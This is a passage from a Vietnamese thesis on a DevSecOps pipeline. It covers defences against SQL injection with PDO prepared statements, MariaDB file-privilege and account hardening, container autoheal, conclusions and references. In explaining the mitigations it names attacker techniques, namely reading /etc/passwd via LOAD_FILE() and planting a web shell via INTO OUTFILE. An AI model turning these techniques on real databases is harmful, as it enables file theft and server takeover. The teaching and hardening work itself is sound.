Để triệt tiêu tận gốc các nguy cơ đã phân tích ở trên, hệ thống áp dụng chiến lược phòng thủ đa tầng Defense-in-Depth bao gồm cả tầng mã nguồn phần mềm và tầng cấu hình hạ tầng:

#### 5.4.1. Chống SQL Injection bằng câu lệnh chuẩn bị (PDO Prepared Statements)
Bản chất của các lỗ hổng SQL Injection là sự nhầm lẫn giữa cú pháp điều khiển của hệ quản trị cơ sở dữ liệu và dữ liệu do người dùng truyền vào. Giải pháp khắc phục triệt để và duy nhất là loại bỏ hoàn toàn việc nối chuỗi, chuyển đổi sang sử dụng cơ chế Prepared Statements thông qua thư viện PHP Data Objects (PDO):

```php
// Chuẩn hóa an toàn 100%: Tách biệt hoàn toàn giữa cấu trúc lệnh và dữ liệu
public function getPortByCode(string $code): ?array 
{
    $sql = "SELECT id, code, city, country, volume FROM ports WHERE code = :code LIMIT 1";
    $stmt = $this->pdo->prepare($sql);
    $stmt->execute([':code' => $code]);
    $result = $stmt->fetch(PDO::FETCH_ASSOC);
    return $result ?: null;
}
```
Khi câu truy vấn được tham số hóa, hệ quản trị cơ sở dữ liệu sẽ biên dịch trước cấu trúc lệnh SQL. Mọi ký tự đặc biệt như `'`, `"`, `--`, `UNION` do người dùng nhập vào đều được đối xử như một giá trị chuỗi thuần túy (string literal), hoàn toàn vô hiệu hóa khả năng thay đổi logic thực thi của câu lệnh.

#### 5.4.2. Cấm ghi file và giới hạn quyền truy cập database
Tại tầng máy chủ MariaDB, cấu hình dịch vụ được siết chặt nhằm vô hiệu hóa khả năng tương tác với hệ điều hành:
1. **Khóa chức năng đọc ghi tệp hệ thống:**
   Trong tệp cấu hình MariaDB, thiết lập giá trị:
   ```ini
   [mysqld]
   secure_file_priv = NULL
   ```
   Giá trị `NULL` vô hiệu hóa hoàn toàn các hàm `LOAD_FILE()` và mệnh đề `INTO OUTFILE`, triệt tiêu hoàn toàn khả năng đọc tệp nhạy cảm `/etc/passwd` và ngăn chặn kẻ tấn công tạo Web Shell ngay cả khi tìm được một điểm SQL Injection mới.
2. **Tách biệt tài khoản dịch vụ:**
   Tuyệt đối không để ứng dụng web kết nối cơ sở dữ liệu bằng tài khoản `root`. Hệ thống tạo riêng một tài khoản dịch vụ chuyên biệt `inlane_user` và chỉ cấp các đặc quyền thao tác dữ liệu tối thiểu:
   ```sql
   GRANT SELECT, INSERT, UPDATE, DELETE ON ilfreight.* TO 'inlane_user'@'%';
   FLUSH PRIVILEGES;
   ```
   Tài khoản này không có quyền `FILE`, không có quyền `SUPER`, và không có quyền truy cập vào các schema nhạy cảm như `mysql` hay `information_schema`.

#### 5.4.3. Tự động phục hồi dịch vụ khi gặp sự cố bằng Autoheal
Để đảm bảo tính sẵn sàng cao (High Availability) khi xảy ra sự cố sập tiến trình hoặc nghẽn mạng:
* Chỉ thị `healthcheck` trong [`docker-compose.prod.yml`](file:///d:/PTIT-DevOps-SonarQube/InlaneWeb/docker-compose.prod.yml) liên tục gửi tín hiệu thăm dò tới endpoint nội bộ `http://localhost/health` mỗi 30 giây.
* Container độc lập `willfarrell/autoheal` lắng nghe các sự kiện qua Docker Unix Socket. Khi phát hiện container `ilfreight_web` chuyển sang trạng thái `unhealthy` quá 3 chu kỳ liên tiếp (tương đương 90 giây không phản hồi), Autoheal sẽ tự động kích hoạt lệnh khởi động lại container một cách độc lập mà không làm ảnh hưởng tới cơ sở dữ liệu hay hạ tầng giám sát, khôi phục dịch vụ về trạng thái sẵn sàng trong thời gian dưới 5 giây.

---

## CHƯƠNG 6: KẾT LUẬN VÀ HƯỚNG PHÁT TRIỂN

### 6.1. Kết quả đạt được
Nghiên cứu đã hoàn thành toàn diện các mục tiêu học thuật và kỹ thuật đã đề ra, mang lại những đóng góp cụ thể:
1. **Xây dựng hoàn chỉnh khung kiến trúc DevSecOps 4 giai đoạn độc lập:** Hiện thực hóa thành công quy trình tự động hóa khép kín từ khâu kiểm soát mã nguồn cục bộ, phân tích an ninh tĩnh đa chiều, kiểm thử tích hợp môi trường tạm thời, đến triển khai sản xuất thực tế trên máy chủ VPS có chứng chỉ SSL.
2. **Hiện thực hóa hiệu quả triết lý Shift-Left Security:** Đưa thời gian phản hồi kiểm tra an ninh từ vài tuần trong các mô hình kiểm thử cuối kỳ truyền thống xuống còn **dưới 3 phút** ngay trên giao diện GitHub Actions, giúp lập trình viên phát hiện và khắc phục sai phạm ngay tại thời điểm tạo Pull Request.
3. **Giải quyết bài toán kiến trúc Dual-Track Lifecycle:** Chứng minh tính khả thi của mô hình vận hành độc lập giữa khối ứng dụng nghiệp vụ biến động cao và khối hạ tầng quan sát tập trung bền vững, xóa bỏ điểm mù giám sát trong các đợt phát hành mã nguồn.
4. **Bộ tài liệu kỹ thuật chuẩn công nghiệp:** Đóng góp hệ thống 4 tài liệu đặc tả kỹ thuật và runbook vận hành chi tiết trong thư mục [`docs/`](file:///d:/PTIT-DevOps-SonarQube/docs), tạo tiền đề cho việc chuẩn hóa quy trình DevOps tại các đơn vị phát triển phần mềm.

### 6.2. Hạn chế và hướng phát triển tiếp theo
* **Hạn chế của nghiên cứu hiện tại:**
  * Đường ống mới tập trung chủ yếu vào việc phân tích mã nguồn nội bộ qua SAST và kiểm thử nhịp tim chức năng qua Smoke Test, chưa tích hợp cơ chế tự động hóa phân tích thành phần phần mềm bên thứ ba qua SCA để phát hiện các lỗ hổng đã biết trong các thư viện PHP Composer.
  * Chưa tích hợp công cụ kiểm thử an ninh động DAST để tự động kích hoạt các tải trọng khai thác giả lập vào môi trường Ephemeral Stack trong quá trình chạy CI.
  * Kênh truyền dữ liệu nhật ký mới chỉ dừng lại ở việc hiển thị trực quan trên Dashboard của Grafana, chưa xây dựng cơ chế đẩy cảnh báo khẩn cấp tức thời tới thiết bị di động của kỹ sư trực vận hành.
* **Định hướng phát triển tiếp theo:**
  * **Tích hợp công cụ quét SCA qua Trivy hoặc Snyk:** Tự động quét và phát hiện các lỗ hổng bảo mật trong các lớp hình ảnh nền của Dockerfile và các gói phụ thuộc Composer trước khi đóng gói lên GHCR.
  * **Tự động hóa DAST với OWASP ZAP Baseline Scan:** Kích hoạt tác tử quét động tự động thăm dò các điểm lỗi XSS, CSRF, cấu hình sai Header an ninh trên môi trường Ephemeral Preview Stack trong Stage 3.
  * **Xây dựng hệ thống cảnh báo đa kênh qua Alertmanager:** Cấu hình Grafana Alerting kết nối qua Webhook để tự động gửi thông báo vi phạm an ninh nghiêm trọng về kênh trao đổi kỹ thuật của nhóm trên Telegram hoặc Discord theo thời gian thực.

---

## TÀI LIỆU THAM KHẢO

1. **Bass, L., Weber, I., & Zhu, L.** (2015). *DevOps: A Software Architect's Perspective*. Addison-Wesley Professional.
2. **Boehm, B. W., & Basili, V. R.** (2001). *Software Defect Reduction Top 10 List*. IEEE Computer, 34(1), 135-137.
3. **National Institute of Standards and Technology (NIST).** (2022). *Secure Software Development Framework (SSDF) Version 1.1: Recommendations for Mitigating the Risk of Software Vulnerabilities*. NIST Special Publication 800-218.
4. **Open Web Application Security Project (OWASP).** (2021). *OWASP Top 10: The Ten Most Critical Web Application Security Risks*. https://owasp.org/Top10/
5. **MITRE Corporation.** (2023). *CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')*. Common Weakness Enumeration.
6. **Sadowski, C., Aftandilian, E., Eagle, C., Miller-Cushon, L., & Jaspan, C.** (2018). *Lessons from Building Static Analysis Tools at Google*. Communications of the ACM, 61(4), 58-66.
7. **Semgrep Documentation.** (2024). *Taint Analysis and Semantic Code Search Engine for Modern Application Security*. Semgrep Inc.
8. **Grafana Labs.** (2024). *Loki: Like Prometheus, but for Logs*. Grafana Observability Documentation.

---

## PHỤ LỤC: HỒ SƠ MINH CHỨNG THỰC NGHIỆM

*(Hội đồng thẩm định và quý độc giả có thể tham chiếu trực tiếp các minh chứng kỹ thuật tương ứng trong kho mã nguồn và hệ thống thực nghiệm)*

* **Minh chứng 1:** Bản ghi thực thi thành công 4 giai đoạn tự động trên GitHub Actions Workflow: [`.github/workflows/devsecops-pipeline.yml`](file:///d:/PTIT-DevOps-SonarQube/.github/workflows/devsecops-pipeline.yml).
* **Minh chứng 2:** Bộ quy tắc kiểm soát chính sách phân nhánh và kiểm tra cú pháp commit: [`ci/policy_guard.py`](file:///d:/PTIT-DevOps-SonarQube/ci/policy_guard.py).
* **Minh chứng 3:** Bảng cấu hình ngưỡng chặn chất lượng SonarQube Quality Gate Rating A: [`ci/sonarqube-quality-gate.json`](file:///d:/PTIT-DevOps-SonarQube/ci/sonarqube-quality-gate.json).
* **Minh chứng 4:** Bộ quy tắc nhận diện luồng dữ liệu ô nhiễm tùy biến địa phương: [`ci/semgrep-local-rules.yml`](file:///d:/PTIT-DevOps-SonarQube/ci/semgrep-local-rules.yml).
* **Minh chứng 5:** Bộ kiểm tra thẩm định cấu hình hạ tầng 21/21 test cases: [`ci/validate_configs.py`](file:///d:/PTIT-DevOps-SonarQube/ci/validate_configs.py).
* **Minh chứng 6:** Tệp điều phối triển khai sản xuất bảo toàn dữ liệu MariaDB: [`InlaneWeb/docker-compose.prod.yml`](file:///d:/PTIT-DevOps-SonarQube/InlaneWeb/docker-compose.prod.yml).
* **Minh chứng 7:** Tệp điều phối hạ tầng giám sát tập trung bền vững 24/7: [`InlaneWeb/docker-compose.monitoring.yml`](file:///d:/PTIT-DevOps-SonarQube/InlaneWeb/docker-compose.monitoring.yml).
* **Minh chứng 8:** Toàn văn hồ sơ thực nghiệm và phân tích 14 vector tấn công SQL Injection: [InlaneWeb/writeup.md](file:///d:/PTIT-DevOps-SonarQube/InlaneWeb/writeup.md).
* **Minh chứng 9:** Cổng giám sát an ninh tập trung trực tuyến thời gian thực: `https://grafana.ecotools.online` (Bảo mật qua xác thực tài khoản quản trị viên, vô hiệu hóa hoàn toàn Anonymous Access).
* **Minh chứng 10:** Kiến trúc điều phối mạng Docker nội bộ (`inlaneweb_net`) và cơ chế định tuyến Reverse Proxy Nginx Proxy Manager đa cổng độc lập.
